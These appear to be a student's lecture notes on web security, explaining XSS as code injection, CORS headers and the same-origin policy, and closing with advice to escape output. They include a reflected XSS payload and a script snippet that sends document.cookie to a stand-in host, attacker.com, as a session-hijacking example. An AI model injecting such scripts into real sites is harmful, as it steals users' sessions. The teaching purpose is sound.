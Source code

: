 ### Cross-site scripting(XSS)

#### Cross-Origin Resource Sharing (CORS) 
- Allow origin https://site-a.com to read data:
     - Access-Control-Allow-Origin: https://site-a.com
- Allow any origin to read data:
    - Access-Control-Allow-Origin: *

Code and data being mixed in ways it is not intended to.

The Myspace incident.

XSS is a code injection vulnerability
- Untrusted user data with code combines for an XSS.


***Same origin policy prevents cross-origin DOM manipulation***

### XSS is a "code injection" vulnerabilty

- Code injection is caused when untrusted user data unexpectedly becomes code
- Any code that combines a command with user data is susceptible.
- In cross site scripting (XSS), the unexpected code is JavaScript in an HTML document
- In SQL injection, the unexpected code is extra SQL commands included a SQL query string

*What happens next?*

- If successful, attacker gains the ability to do anything the target can do through their browser
- Can view/exfiltrate their cookies
- Can send any HTTP request to the site, with the user's cookies!

### A Malicious search
- User input:`<script>alert(document.cookie)</script>`
- URL: example.com/?search=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- Server input:
`<script>alert(document.cookie)</script>`
- Resulting page:
`<p>Search result for <script>alert(document.cookie)</script></p>`

### Session hijacking with XSS
- What if website is vulnerable to XSS?
    - Attacker can insert their code into the webpage 
    - At this point, they can easily exfiltrate the user's cookie

```HTML
<script>
    new Image().src =
        'https://attacker.com/steal?cookie=' + document.cookie
</script>
```
- Resulting page:
```HTML
<p>Search result for <script>new Image().src =
'https://attacker.com/steal?cookie=' + document.cookie
</script></p>
```

Fix the reflected XSS vulnerability using html-escape and check against the XSS-auditor to make sure.

## Big idea: Never trust the client
- Any data from the client controls is suspect!
- Client can send any data they want to the server

### What is XSS so prevalent?
- Data can be used in many different contexts
    - The web has so many different languages!
    - Even within HTML, there are at least 5 contexts to understand!
- Each context has different "control characters"
    - Some contexts have very complicated rules!
- If you slip up in even one place, you're completely vulnerable
 :wq
